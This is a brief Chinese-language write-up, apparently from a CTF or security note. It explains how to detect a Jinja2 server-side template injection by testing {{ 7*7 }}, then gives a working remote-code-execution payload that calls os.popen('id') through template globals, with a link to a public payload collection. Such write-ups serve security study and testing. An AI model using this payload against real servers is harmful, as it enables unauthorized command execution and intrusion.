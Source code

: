 ## 分析

当随意访问一个路径时候，比如： `http://1.2.3.4/x`

页面会返回 `x` 不存在，不是标准的 `404` 错误，那么可以判断是一个 `SSTI` 漏洞
使用 `{{ 7*7 }}`， 返回 `49`

那么可以直接使用 `payload `
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

# 参考链接
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution)
